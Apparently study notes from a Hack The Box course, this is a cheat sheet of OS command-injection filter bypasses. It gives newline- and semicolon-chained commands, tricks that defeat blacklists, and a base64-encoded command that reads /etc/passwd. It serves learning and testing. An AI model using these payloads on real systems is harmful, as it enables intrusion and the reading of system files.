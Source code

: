 ### Use new-line instead of ; or &
#### Example: 
```bash
ping 0.0.0.0%0als
```
The `%0a` is an encodded `\n` that will execute the ls command afterwards

<hr>

### Use tabs instead of spaces (bypass spaces blacklist)
```bash
ping 0.0.0.0;ls  -l
```

<hr>

### Bypass some characters
#### Shift the character
```bash
echo $(tr '!-}' '"-~'<<<[) # this will result in \
```
#### Extract the character from a env variable
```bash
$(echo	${PATH:0:1})
```
#### words blacklist
```
wh$(echo "am")i # whoami
whoa$@mi # whoami
who"a"mi # whoami
$(tr "[0-9]" "\0"<<<"who420ami") # whoami
```

<hr>

### Cool commands
```bash
print # instead of echo
printenv # print all env variables
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) # run b64 command 
```

<hr>

### WINDOWS ?

```cmd
C:\htb> echo %HOMEPATH:~6,-11%  # will result in \
PS C:\htb> $env:HOMEPATH[0] # will result in \
PS C:\htb> $env:PROGRAMFILES[10]
```
